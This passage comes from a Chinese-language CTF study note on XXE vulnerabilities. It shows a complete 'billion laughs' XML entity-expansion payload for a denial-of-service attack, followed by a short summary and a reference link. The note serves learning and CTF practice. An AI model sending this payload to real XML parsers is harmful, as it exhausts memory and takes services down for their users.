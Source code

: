 #### **2. 利用 XXE 进行 DOS 攻击**

**示例代码：**

```
<?xml version="1.0"?>
     <!DOCTYPE lolz [
     <!ENTITY lol "lol">
     <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
     <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
     <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
     <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
     <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
     <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
     <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
     <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
     ]>
     <lolz>&lol9;</lolz>
```

## 0x05总结

XXE在ctf比赛中也算比较常见，最近做题碰到很多的xxe的题目，大多题目难度比较适中，记录系统学习一下

## 0x06Reference

[一篇文章带你深入理解漏洞之 XXE 漏洞](https://xz.aliyun.com/t/3357#toc-24)
